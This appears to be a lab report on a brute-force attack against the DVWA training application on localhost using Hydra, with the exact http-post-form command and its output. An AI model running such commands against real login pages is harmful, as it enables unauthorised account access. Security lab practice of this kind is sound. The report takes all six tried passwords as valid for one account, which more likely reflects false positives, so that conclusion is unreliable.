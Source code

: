 # 🔐 Brute Force Attack Report on DVWA using Hydra

---

## 🛠️ Tools & Environment

- **Tool:** Hydra v9.5  
- **Target URL:** `http://127.0.0.1/DVWA/vulnerabilities/brute/`  
- **Username:** `admin`  
- **Password List:** `quick.txt` (6 common passwords)  
- **Attack Type:** HTTP POST form brute force  

---

## ⚙️ Command Executed

```bash
hydra -l admin -P quick.txt 127.0.0.1 http-post-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed"
```


## 📊 Attack Output & Results
Hydra started the attack and tried 6 passwords from the quick.txt file.

``` [80][http-post-form] host: 127.0.0.1   login: admin   password: 1234
 [80][http-post-form] host: 127.0.0.1   login: admin   password: admin123
 [80][http-post-form] host: 127.0.0.1   login: admin   password: letmein
 [80][http-post-form] host: 127.0.0.1   login: admin   password: 123456
 [80][http-post-form] host: 127.0.0.1   login: admin   password: admin
 [80][http-post-form] host: 127.0.0.1   login: admin   password: password
 1 of 1 target successfully completed, 6 valid passwords found
```
![Attack](Screenshots/Attack.png)

## 📌 Summary
Hydra successfully identified 6 valid passwords for the user admin.

The tested passwords were simple and commonly used, demonstrating weak password security.

Using a small password list (quick.txt) made the testing process efficient and quick.

This confirms the vulnerability of DVWA to brute force attacks at this security level.

## ⚠️ Conclusion
The brute force attack on DVWA using Hydra demonstrates how weak or default passwords can be exploited. Always use strong, unique passwords and consider implementing protections like account lockouts or rate limiting.

Report generated by: M.M
Date: 2025-07-09
